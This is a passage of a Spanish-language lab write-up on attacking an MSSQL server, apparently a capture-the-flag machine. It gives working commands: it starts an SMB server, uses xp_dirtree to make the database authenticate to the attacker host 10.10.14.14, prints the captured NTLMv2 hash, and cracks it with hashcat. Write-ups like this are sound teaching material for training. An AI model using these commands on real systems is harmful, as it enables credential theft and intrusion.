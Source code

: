 Probaremos de habilitar el componente **xp\_cmdshell** pero no podemos activarlo por falta de permisos.

```sql
SP_CONFIGURE "show advanced options", 1
```

<figure><img src="../../../.gitbook/assets/1432_vmware_zVEDINmHAW.png" alt=""><figcaption></figcaption></figure>

### Abusing MSSQL (xp\_dirtree)

El compontente **xp\_dirtree** si lo tenemos habilitado, probaremos de comprobar si podemos interceptar un hash NTLMv2.

Para ello, des de nuestra Kali nos levantaremos un servidor SMB y des de la terminal de MSSQL procederemos a ejecutar el comando de **xp\_dirtree** en el servidor SMB que hemos montado, por parte de nuestra Kali, hemos recibido el hash NTLMv2.

```bash
smbserver.py smbFolder $(pwd) -smb2support

xp_dirtree '\\10.10.14.14\smbFolder\'
```

<figure><img src="../../../.gitbook/assets/1433_vmware_19P9JCQ9fB.png" alt=""><figcaption></figcaption></figure>

Con la herramienta de **hashid** comprobaremos qué tipo de hash tenemos, en este caso, un hash NTLMv2.

Y con **hashcat** procederemos a crackear el hash para obtener la contraseña.

{% code overflow="wrap" %}
```bash
hashid 'DC01$::MANAGER:aaaaaaaaaaaaaaaa:bc5c4de94dfa738a4028aac1cfc9a3a0:010100000000000080fcf97d4c32db01e7399019cb091b6500000000010010006b0075005600700070007400420065000200100058004f00750056004a00460069004d00030010006b0075005600700070007400420065000400100058004f00750056004a00460069004d000700080080fcf97d4c32db010600040002000000080030003000000000000000000000000030000089d02c51f9b86a7cbcf62b25d97bf9b25eb4e27657ca403a692ae8e78446c5440a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310034000000000000000000'

hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
```
{% endcode %}
